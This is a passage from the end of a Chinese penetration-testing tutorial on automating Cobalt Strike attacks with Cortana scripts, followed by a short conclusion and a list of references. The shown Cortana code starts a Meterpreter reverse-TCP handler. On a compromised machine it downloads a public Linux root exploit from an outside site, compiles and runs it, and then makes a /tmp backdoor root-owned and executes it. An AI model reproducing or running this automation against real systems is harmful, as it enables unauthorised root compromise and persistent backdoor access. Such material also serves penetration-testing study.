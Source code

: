 ```
                                # Launch our aux shells
                                handler("linux/x86/meterpreter/reverse_tcp", $r_lport, %(LHOST => lhost()));

                                # Rooting
                                s_cmd($1, "wget http://downloads.securityfocus.com/vulnerabilities/exploits/44219.c");
                              s_cmd($1, "gcc 44219.c -o rootme_1");
                                s_cmd($1, "chmod +x rootme_1");
                                s_cmd($1, "chmod 0777 rootme_1");
                               s_cmd($1, "./rootme_1");
                                sleep(10 * 1000);
                                s_cmd($1, "chmod +x /tmp/linux_backdoor_$r_lport");
                                s_cmd($1, "chmod 0777 /tmp/linux_backdoor_$r_lport");
                               s_cmd($1, "chown root:root /tmp/linux_backdoor_$r_lport");
                              s_cmd($1, "/tmp/linux_backdoor_$r_lport");
                              s_cmd($1, "exit");

                                db_sync();  
           }
       }
   }
}

```

0x08 小结
=====

使用Cortana脚本可以让我们更加便捷的使用Cobalt strike，并能更加方便的进行自动化攻击，希望对渗透测试中的你有所帮助。

0x09 参考
=====

1.  [http://security-is-just-an-illusion.blogspot.com/2013/11/one-day-with-cortana-script-engine.html](http://security-is-just-an-illusion.blogspot.com/2013/11/one-day-with-cortana-script-engine.html)
2.  [http://www.rvrsh3ll.net/blog/offensive/point-click-powershell-pwn/](http://www.rvrsh3ll.net/blog/offensive/point-click-powershell-pwn/)
3.  [https://www.veil-framework.com/veil-evasion-cortana-integration/](https://www.veil-framework.com/veil-evasion-cortana-integration/)
4.  [http://www.fastandeasyhacking.com/download/c/cortana_defcon.pdf](http://www.fastandeasyhacking.com/download/c/cortana_defcon.pdf)
5.  [http://blog.cobaltstrike.com/2013/03/13/howto-integrate-third-party-tools-with-cortana/](http://blog.cobaltstrike.com/2013/03/13/howto-integrate-third-party-tools-with-cortana/)

本文由evi1cg原创并首发于乌云drops，转载请注明